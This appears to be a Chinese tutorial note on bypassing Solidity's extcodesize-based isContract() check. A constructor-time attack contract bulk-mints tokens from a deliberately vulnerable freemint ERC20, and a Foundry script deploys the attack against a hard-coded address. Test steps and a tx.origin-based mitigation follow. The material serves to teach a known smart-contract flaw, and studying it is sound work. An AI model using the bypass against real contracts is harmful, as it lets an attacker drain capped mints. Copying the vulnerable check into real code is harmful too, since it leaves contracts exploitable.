

# EOA检测绕过

# 绕过合约检查

<font style="color:rgb(44, 62, 80);">很多 freemint 的项目为了限制科学家（程序员）会用到</font><font style="color:rgb(44, 62, 80);"> </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">isContract()</font></code><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(44, 62, 80);">方法，希望将调用者</font><font style="color:rgb(44, 62, 80);"> </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">msg.sender</font></code><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(44, 62, 80);">限制为外部账户（EOA），而非合约。这个函数利用</font><font style="color:rgb(44, 62, 80);"> </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">extcodesize</font></code><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(44, 62, 80);">获取该地址所存储的</font><font style="color:rgb(44, 62, 80);"> </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">bytecode</font></code><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(44, 62, 80);">长度（runtime），若大于0，则判断为合约，否则就是EOA（用户）。</font>

```solidity
// 利用 extcodesize 检查是否为合约
    function isContract(address account) public view returns (bool) {
        // extcodesize > 0 的地址一定是合约地址
        // 但是合约在构造函数时候 extcodesize 为0
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }
```

<font style="color:rgb(44, 62, 80);">这里有一个漏洞，就是在合约在被创建的时候，</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">runtime bytecode</font></code><font style="color:rgb(44, 62, 80);"> 还没有被存储到地址上，因此 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">bytecode</font></code><font style="color:rgb(44, 62, 80);"> 长度为0。也就是说，如果我们将逻辑写在合约的构造函数 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">constructor</font></code><font style="color:rgb(44, 62, 80);"> 中的话，就可以绕过 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">isContract()</font></code><font style="color:rgb(44, 62, 80);"> 检查。</font>

# 漏洞例子

<font style="color:rgb(44, 62, 80);">下面我们来看一个例子：</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">ContractCheck</font></code><font style="color:rgb(44, 62, 80);">合约是一个 freemint ERC20 合约，铸造函数 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">mint()</font></code><font style="color:rgb(44, 62, 80);"> 中使用了 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">isContract()</font></code><font style="color:rgb(44, 62, 80);"> 函数来阻止合约地址的调用，防止科学家批量铸造。每次调用 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">mint()</font></code><font style="color:rgb(44, 62, 80);"> 可以铸造 100 枚代币。</font>

```solidity
// 用extcodesize检查是否为合约地址
contract ContractCheck is ERC20 {
    // 构造函数：初始化代币名称和代号
    constructor() ERC20("", "") {}
    
    // 利用 extcodesize 检查是否为合约
    function isContract(address account) public view returns (bool) {
        // extcodesize > 0 的地址一定是合约地址
        // 但是合约在构造函数时候 extcodesize 为0
        uint size;
        assembly {
            size := extcodesize(account)
        }
        return size > 0;
    }

    // mint函数，只有非合约地址能调用（有漏洞）
    function mint() public {
        require(!isContract(msg.sender), "Contract not allowed!");
        _mint(msg.sender, 100);
    }
}
```

<font style="color:rgb(44, 62, 80);">我们写一个攻击合约，在 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">constructor</font></code><font style="color:rgb(44, 62, 80);"> 中多次调用 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">ContractCheck</font></code><font style="color:rgb(44, 62, 80);"> 合约中的 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">mint()</font></code><font style="color:rgb(44, 62, 80);"> 函数，批量铸造 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">1000</font></code><font style="color:rgb(44, 62, 80);"> 枚代币：</font>

```solidity
// 利用构造函数的特点攻击
contract NotContract {
    bool public isContract;
    address public contractCheck;

    // 当合约正在被创建时，extcodesize (代码长度) 为 0，因此不会被 isContract() 检测出。
    constructor(address addr) {
        contractCheck = addr;
        isContract = ContractCheck(addr).isContract(address(this));
        // This will work
        for(uint i; i < 10; i++){
            ContractCheck(addr).mint();
        }
    }

    // 合约创建好以后，extcodesize > 0，isContract() 可以检测
    function mint() external {
        ContractCheck(contractCheck).mint();
    }
}
```

<font style="color:rgb(44, 62, 80);">如果我们前面讲的是正确的，在构造函数调用</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">mint()</font></code><font style="color:rgb(44, 62, 80);">可以绕过</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">isContract()</font></code><font style="color:rgb(44, 62, 80);">的检查成功铸造代币，那么函数将成功配置，并且状态变量</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">isContract</font></code><font style="color:rgb(44, 62, 80);">会在构造函数赋值</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">false</font></code><font style="color:rgb(44, 62, 80);">。而在合约配置之后，</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">runtime bytecode</font></code><font style="color:rgb(44, 62, 80);">已经被存储在合约地址的话了，，</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">extcodesize > 0</font></code><font style="color:rgb(44, 62, 80);">能够</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">isContract()</font></code><font style="color:rgb(44, 62, 80);">成功阻止铸造，调用</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">mint()</font></code><font style="color:rgb(44, 62, 80);">函数将失败</font>

# 测试步骤

1. <font style="color:rgb(44, 62, 80);">部署</font><font style="color:rgb(44, 62, 80);"> </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">ContractCheck</font></code><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(44, 62, 80);">合约。</font>
2. <font style="color:rgb(44, 62, 80);">部署</font><font style="color:rgb(44, 62, 80);"> </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">NotContract</font></code><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(44, 62, 80);">合约，参数为</font><font style="color:rgb(44, 62, 80);"> </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">ContractCheck</font></code><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(44, 62, 80);">合约地址。</font>
3. <font style="color:rgb(44, 62, 80);">调用</font><font style="color:rgb(44, 62, 80);"> </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">ContractCheck</font></code><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(44, 62, 80);">合约的</font><font style="color:rgb(44, 62, 80);"> </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">balanceOf</font></code><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(44, 62, 80);">查看</font><font style="color:rgb(44, 62, 80);"> </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">NotContract</font></code><font style="color:rgb(44, 62, 80);"> </font><font style="color:rgb(44, 62, 80);">合约的代币余额为</font><font style="color:rgb(44, 62, 80);"> </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">1000</font></code><font style="color:rgb(44, 62, 80);">，攻击成功。</font>
4. <font style="color:rgb(44, 62, 80);">调用</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">NotContract</font></code><font style="color:rgb(44, 62, 80);"> 合约的 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">mint()</font></code><font style="color:rgb(44, 62, 80);"> 函数，由于此时合约已经部署完成，调用 </font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">mint()</font></code><font style="color:rgb(44, 62, 80);"> 函数将失败。</font>

# <font style="color:rgb(44, 62, 80);">预防办法</font>

<font style="color:rgb(44, 62, 80);">你可以使用 </font><code><font style="color:rgb(71, 101, 130);background-color:#FBDFEF;">(tx.origin == msg.sender)</font></code><font style="color:rgb(44, 62, 80);"> 来检测调用者是否为合约。如果调用者为 EOA，那么</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">tx.origin</font></code><font style="color:rgb(44, 62, 80);">和</font><code><font style="color:rgb(71, 101, 130);background-color:rgba(27, 31, 35, 0.05);">msg.sender</font></code><font style="color:rgb(44, 62, 80);">相等；如果它们俩不相等，调用者为合约。</font>

```plain
function realContract(address account) public view returns (bool) {
    return (tx.origin == msg.sender);
}
```

# 实现

部署目标合约，报了一次错从-vvv里拿到Attack地址，填到BalanceOf那里（邪如修）

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "../lib/forge-std/src/Script.sol";
import {Attack} from "../src/Attack.sol";
import {ContractCheck} from "../src/ContractCheck.sol";

contract CounterScript is Script {
    ContractCheck token =
        ContractCheck(0x95bD8D42f30351685e96C62EDdc0d0613bf9a87A);//注意写法，别让token成个空地址

    function run() public {
        vm.startBroadcast();
        new Attack(0x95bD8D42f30351685e96C62EDdc0d0613bf9a87A);
        require(
            token.balanceOf(0x98eDDadCfde04dC22a0e62119617e74a6Bc77313) == 1000,
            "no"
        );
        vm.stopBroadcast();
    }
}

```



o如k


> 更新: 2025-07-31 14:36:35  
> 原文: <https://www.yuque.com/xiaoyuhushenfu/yzin4n/uvyxzqms1u5bth7c>